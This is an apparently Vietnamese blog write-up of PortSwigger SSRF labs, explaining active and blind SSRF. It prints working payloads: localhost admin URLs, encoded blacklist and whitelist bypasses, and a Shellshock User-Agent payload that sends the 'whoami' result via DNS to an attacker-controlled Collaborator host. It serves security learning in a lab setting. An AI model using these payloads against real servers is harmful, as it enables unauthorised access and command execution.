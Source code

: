 ```yaml
---
title: Learning about Sever Side Request Forgery
published: 2024-10-07
tags: [HTB, Pentest]
description: Learning about SSRF Vuln
category: Learning
author: Trohan0x00
draft: flase
image: "/assets/post_image/ssrf.png"
---
```



# Server Side Forgery Request (SSRF) 

## I. SSRF là gì?
![image](https://hackmd.io/_uploads/HkqFQp1kyl.png)
* Lỗ hỏng `
SSRF (Server-Side Request Forgery)` hiểu đơn giản là lỗ hỏng mà các attacker có thể lừa máy chủ thực hiện các `Requests HTTP` thay cho chúng. Điều này xảy ra khi ứng dụng web chấp nhận URL hoặc các đầu vào từ người dùng và sử dụng chúng để thực hiện các yêu cầu đến các tài nguyên bên ngoài hoặc nội bộ mà không xác thực hoặc kiểm tra nguồn gốc của chúng một cách đúng đắn.

## II. Hậu quả do SSRF gây ra là gì
* Một cuộc tấn công `SSRF` thành công thường dẫn đến các hành động trái phép hoặc truy cập dữ liệu trong tổ chức. Điều này có thể xảy ra trong ứng dụng dễ bị tấn công hoặc trên các hệ thống phía sau mà ứng dụng có thể giao tiếp. Trong một số tình huống, lỗ hổng SSRF có thể cho phép kẻ tấn công thực hiện lệnh tùy ý.
* Khai thác `SSRF` có thể dẫn đến kết nối với các hệ thống bên thứ ba bên ngoài, gây ra các cuộc tấn công tiếp diễn ác ý. Những cuộc tấn công này có thể xuất hiện như bắt nguồn từ tổ chức đang lưu trữ ứng dụng dễ bị tấn công.


## III. Các loại SSRF phổ biến

* Theo `Portswigger` thì mình sẽ chia ra các trường hợp tấn công `SSRF` phổ biến mà các attacker có thể sử dụng thành 2 loại là `Active SSRF` và `Blind SSRF` trong đó:
    1. `Active SSRF` là loại phổ biến nhất, khi kẻ tấn công có thể thấy được phản hồi ngay lập tức từ máy chủ sau khi thực hiện yêu cầu `SSRF`. Attacker sử dụng loại `SSRF` này để khám phá các dịch vụ mạng nội bộ, truy cập tài nguyên không thể truy cập từ bên ngoài, và đọc nội dung từ các dịch vụ đó.
    * Ví dụ:
        * Các Attacker nhập URL nội bộ, như `http://localhost/admin`, để tải một trang quản trị nội bộ.
        * Kết quả của yêu cầu này (nội dung của trang quản trị) sẽ được trả về và hiển thị cho Attacker.
    2. `Blind SSRF` xảy ra khi Attacker không thấy được phản hồi trực tiếp từ máy chủ. Tuy nhiên, yêu cầu vẫn được thực hiện từ phía máy chủ đến mục tiêu mà kẻ tấn công mong muốn. Loại `SSRF` này khó khai thác hơn vì kẻ tấn công không thể xác minh ngay lập tức kết quả của cuộc tấn công.
    * Ví dụ:
        * Attacker tạo ra một yêu cầu `SSRF` để truy cập một tài nguyên nội bộ.
        * Máy chủ thực hiện yêu cầu, nhưng không trả lại phản hồi cho kẻ tấn công, khiến cho việc xác định thành công hay thất bại trở nên khó khăn.
        * Tuy nhiên, kẻ tấn công có thể khai thác các tín hiệu gián tiếp, như qua việc gửi dữ liệu đến máy chủ bên ngoài mà họ kiểm soát để nhận được thông tin (ví dụ qua `DNS exfiltration`). 

## IV. Cách khai thác SSRF
### 1. Active SSRF
* Để đi một cách đồng bộ thì mình sẽ thực hành lần lượt các hình thức tấn công của lỗ hỏng ở trên `Portswigger`. Đầu tiên đối với `Active SSRF` thì ta có nhiều hình thức để tấn công như:
    1. Tấn công Server là hình thức tấn công cơ bản nhất mình sẽ nói sau.
    2. Tấn công Bypass Blacklist
    3. Tấn cộng dựa vào Whitelist

* Ta sẽ đi thực hành lần lượt các labs, để nhanh gọn nên mình sẽ chỉ nêu những ý cần nắm cũng như các keyword để thực hiện được các lab này.

#### Lab 1:  Basic SSRF against the local server
* ![image](https://hackmd.io/_uploads/SJJ7QC1yJg.png)
* Với Description trên ta biết được admin interface sẽ nằm ở `http://localhost/admin` vì thế ta cần inject được payload để cho server forward đến `/admin`. Vì lab đầu rất đơn giản nên mình sẽ đi nhanh.
* Dùng `Burp` và check ở phần Checkstock của web ta bắt được request 
    ![image](https://hackmd.io/_uploads/BJmQNRkJke.png)
* Thay thế phần `URL` ở StockAPI bằng payload của ta `http://localhost/admin`
    ![image](https://hackmd.io/_uploads/r1UD4C1J1g.png)
* Render được trang của admin tiếp tục dùng payload `http://localhost/admin/delete?username=carlos` để tiến hành xóa user carlos ra khỏi admin panel 

    ![image](https://hackmd.io/_uploads/Byao4RJkke.png)
#### Lab 2: Basic SSRF against another back-end system
![image](https://hackmd.io/_uploads/Byy-rR1k1e.png)
* Lab này cũng tương tự như Lab 1 nhưng admin interface ở đây sẽ là địa chỉ ip có format là `192.168.0.x:8080` ta vẫn không biết rõ địa chỉ ip của admin nên ta cần có sử trợ giúp của `Intruder`.
    ![image](https://hackmd.io/_uploads/HyaMUCJJyx.png)
* Ta sẽ add position ở x và chọn `Snipper Attack` với payload là Numberlist
    ![image](https://hackmd.io/_uploads/rJW38Ckyyl.png)
* Cận sẽ là từ 1-255, và tiến hành bruteforce
    ![image](https://hackmd.io/_uploads/SyvaLRyJJl.png)
* Kết quả nhận được 1 payload với Status 200 ở ip là `http://192.168.0.50:8080/admin` quay trở lại Repeter và tiến hành khai thác như Lab 1
#### Lab 3: SSRF with blacklist-based input filter
![image](https://hackmd.io/_uploads/r1c6v0yykg.png)
* Lab này sẽ là kỹ thuật `Bypass Blacklist SSRF`. Nói một chút về kỹ thuật này thì một số ứng dụng chặn các đầu vào chứa tên miền như `127.0.0.1` và `localhost`, hoặc các `URL` nhạy cảm như `/admin`. Trong trường hợp này,ta có thể vượt qua bộ lọc bằng các kỹ thuật sau:
    * Sử dụng một đại diện IP thay thế cho `127.0.0.1`, chẳng hạn như `2130706433, 017700000001, hoặc 127.1`.
    * Sử dụng double enc URL để có thể bypass trong một vài trường hợp
* Quay trở lại với lab thì tương tự như các lab trước nhưng ở đây việc nhập url không còn đơn giản như trước do server đã deploy một lớp `filter` để lọc `Untrusted Data` 
    ![image](https://hackmd.io/_uploads/Hka6iCJ1Jx.png)
* Khi ta nhập url thông thường thì sẽ nhận được thông báo blocked như này. Vì thế ta có thể thay đổi `locahost` thành địa chỉ ip `127.0.0.1` nhưng vẫn bị blocked. Để bypass ta có thể đổi thành `127.1` và vẫn bị blocked =)))
* Suy nghĩ một lúc thì mình quyết định Double Url enc luôn thằng admin, có vẻ như vẫn đề không đến từ địa chỉ ip của ta mà là đến từ route `/admin` nên mình sẽ enc chữ a thành `%25%36%31` từ đó ta có payload `http://127.1/%25%36%31dmin` 
![image](https://hackmd.io/_uploads/BJmIa0JJyx.png)
* Ta đã tiêm thành công và tiến hành solved như các lab trước thôi

#### Lab 4: SSRF with whitelist-based input filters
![image](https://hackmd.io/_uploads/BJff0AJ1ye.png)
* Lab này sẽ là kỹ thuật lợi dụng Whitelist để bypass
* Một số ứng dụng chỉ cho phép các đầu vào khớp với whitelist các giá trị cho phép. Ta có thể bypass bằng cách khai thác các sự không nhất quán trong quá trình phân tích cú pháp URL.
    * Sử dụng ký tự `@`: Chèn thông tin đăng nhập vào URL trước tên miền (hostname), ví dụ: `https://expected-host:fakepassword@evil-host.`
    * Sử dụng ký tự `#`: Đánh dấu phân đoạn URL (fragment), ví dụ: `https://evil-host#expected-host.`
    * Sử dụng phân cấp `DNS`: Tận dụng phân cấp tên miền để đưa tên miền cần thiết vào một tên miền `DNS` đầy đủ mà bạn kiểm soát, ví dụ: `https://expected-host.evil-host.`
    * URL-encode hoặc double-encode: Mã hóa URL hoặc mã hóa kép để làm rối loạn việc phân tích URL.
* Đến với Lab ta tiến hành check ở phần CheckStock như cũ 
![image](https://hackmd.io/_uploads/B1p8kJeJkx.png)
* Ta nhận thấy rằng whitelist domain name của chúng ta phải là `stock.weliketoshop.net` vì thế ta có thể sử dụng các cách bypass ở bên trên để có thể giải quyết bài này
* Ban đầu mình khá loay hoay với việc bypass này do thử một lúc lâu vẫn không tìm ra được cách bypass whitelist này
    * Và cuối cùng payload đúng là `http://localhost%2523@stock.weliketoshop.net/admin` ta sẽ dùng ký tự `#` để thực hiện. Nhưng cần phải kết hợp với Double Url enc để enc thành `%2523` để qua mặt được filter và theo công thức thì phía sau sẽ là expected_host và route `/admin` 
![image](https://hackmd.io/_uploads/SJZJ-1ly1l.png)
* Tiến hành khai thác xóa user như các lab truóc là xong.

### 2. Blind SSRF 
* Đến với phần này mình sẽ tập trung đến 1 Lab Expert duy nhất là ` Blind SSRF with Shellshock exploitation`
    ![image](https://hackmd.io/_uploads/HkzytMlJkl.png)
* Như đã tìm hiểu ở trên thì chúng ta đã nắm rõ được cơ chế cũng như khả năng tác động của `Blind SSRF`do đó mình sẽ đi thằng vào vấn đề chính. Tên Lab như ta đã thấy là khai thác `Blind SSRF` với việc khai thác `Shellshock`. Vậy, `Shellsock` là gì?
    ![image](https://hackmd.io/_uploads/rkaBKMgk1l.png)
* `Shellshock` là một lỗ hổng bảo mật nghiêm trọng trong `Bash (Bourne Again Shell)`, một trình thông dịch dòng lệnh phổ biến trên nhiều hệ điều hành `Unix` và `Linux`. Lỗ hổng này được phát hiện vào năm 2014 và có thể cho phép kẻ tấn công thực thi mã tùy ý `(RCE)` trên hệ thống bị ảnh hưởng chỉ bằng cách truyền dữ liệu độc hại thông qua các biến môi trường. 
* Nếu một ứng dụng web hoặc dịch vụ nào đó (ví dụ như một máy chủ web CGI) sử dụng `Bash` để xử lý dữ liệu đầu vào của người dùng, kẻ tấn công có thể gửi một yêu cầu chứa mã độc trong biến môi trường. Khi Bash xử lý, nó sẽ thực thi mã độc đó.
`env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
* Trở lại với Lab thì ta được hint một extension của `Burpsuite` dùng để check `Blind SSRF` đó chính là `Collaborator SSRF` nên mình tải về và sử dụng. Tiến hành vào web lab sau khi scan thì đã scan được lỗ hỏng 
    ![image](https://hackmd.io/_uploads/BksicGlyyl.png)
* Như ta thấy, tool check được `SSRF` không chỉ ở `Referer` mà còn ở `User-Agent` tức là phần trình duyệt của user. 
* Minhf search google với keyword là `Shellshock User-Agent` thì tìm được payload để thực hiện inject `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`. Tiến hành dùng `Burp Collaborator` để thực hiện lấy `domain` 
    ![image](https://hackmd.io/_uploads/BygshMgyyx.png)
* Ta thay `Referer` bằng địa chỉ description cho và tuy nhiên ta bị thiếu mất ip hoàn chỉnh do đó mình sẽ dùng `Intruder` để brute
    ![image](https://hackmd.io/_uploads/r14mazl1yx.png)
* Payload sẽ dùng `Numbers list` như các bài trước và tiến hành brute. 
    ![image](https://hackmd.io/_uploads/H1iQ_B-kye.png)
* Khi brute xong và tiến hành pol về thì ta nhận được một DNS query với tên user ta cần tìm là `peter-JxMNYr`